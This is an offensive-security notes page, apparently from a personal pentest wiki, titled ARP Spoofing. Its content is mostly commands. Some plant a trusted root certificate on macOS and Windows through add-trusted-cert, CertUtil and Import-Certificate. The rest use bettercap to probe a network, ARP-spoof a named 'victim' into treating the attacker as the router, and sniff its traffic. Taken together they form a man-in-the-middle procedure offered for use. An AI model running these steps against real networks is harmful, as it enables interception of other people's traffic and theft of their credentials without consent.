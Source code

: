 # ARP Spoofing

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

TODO: Re-arrange this section under persistence (https://www.ired.team/offensive-security/persistence/t1130-install-root-certificate)


Mac OSX

```
$ add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain /tmp/filename
```

Windows

```
C:\> CertUtil.exe -addstore -f -user "Root" "C:\path\to\cert.pem"
```

```
PS C:\> Import-Certificate -FilePath C:\Users\spot\Downloads\certnew.cer -CertStoreLocation Cert:\CurrentUser\Root\

HKEY_CURRENT_USER\Software\Microsoft\SystemCertificates\Root\Certificates\
```

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```
net.show
```

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

Enable sniffer mode

```
net.sniff on
```

---
## References

### Backlinks

- [[DNSChef]]